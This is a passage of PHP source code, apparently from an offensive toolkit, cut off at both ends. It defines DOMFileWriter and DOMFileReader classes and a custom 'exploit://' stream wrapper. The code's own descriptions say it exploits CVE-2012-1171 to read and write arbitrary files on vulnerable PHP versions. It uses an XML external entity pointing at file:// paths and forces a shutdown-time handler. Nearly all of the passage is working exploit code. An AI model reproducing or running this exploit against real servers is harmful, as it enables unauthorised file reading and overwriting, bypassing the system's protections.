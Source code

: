 ```php
		case 'w':
			$doc->loadHTML($this->fileContent);
			$doc->removeChild($doc->firstChild);
			$doc->saveHTMLFile($this->filePath);
			break;
		default:
		case 'r':
			$doc->resolveExternals = true;
			$doc->substituteEntities = true;
			$doc->loadXML("<!DOCTYPE doc [<!ENTITY file SYSTEM \"file://{$this->filePath}\">]><doc>&file;</doc>", LIBXML_PARSEHUGE);
			echo $doc->documentElement->firstChild->nodeValue;
		}
	}
	function stream_open($path, $mode, $options, &$opened_path) {
		$this->filePath = substr($path, 10);
		$this->mode = $mode;
		return true;
	}
	public function stream_write($data) {
		$this->fileContent = $data;
		return strlen($data);
	}
}

class DOMFileWriter extends FileWriter {
	function isAvailable() {
		return extension_loaded('dom') && (version_compare(phpversion(), '5.3.10', '<=') || version_compare(phpversion(), '5.4.0', '='));
	}
	function getDescription() {
		return 'Write to and create a file exploiting CVE-2012-1171 (allow overriding). Notice the content should be in well-formed XML format.';
	}
	function write($content) {
		// set it to global resource in order to trigger RSHUTDOWN
		global $_DOM_exploit_resource;
		stream_wrapper_register('exploit', 'StreamExploiter');
		$_DOM_exploit_resource = fopen("exploit://{$this->getFilePath()}", 'w');
		fwrite($_DOM_exploit_resource, $content);
	}
}

class DOMFileReader extends FileReader {
	function isAvailable() {
		return extension_loaded('dom') && (version_compare(phpversion(), '5.3.10', '<=') || version_compare(phpversion(), '5.4.0', '='));
	}
	function getDescription() {
		return 'Read a file exploiting CVE-2012-1171. Notice the content should be in well-formed XML format.';
	}
	function read() {
		// set it to global resource in order to trigger RSHUTDOWN
		global $_DOM_exploit_resource;
		stream_wrapper_register('exploit', 'StreamExploiter');
		$_DOM_exploit_resource = fopen("exploit://{$this->getFilePath()}", 'r');
	}
}

class SqliteFileWriter extends FileWriter {
	function isAvailable() {
		return is_writable(getcwd())
```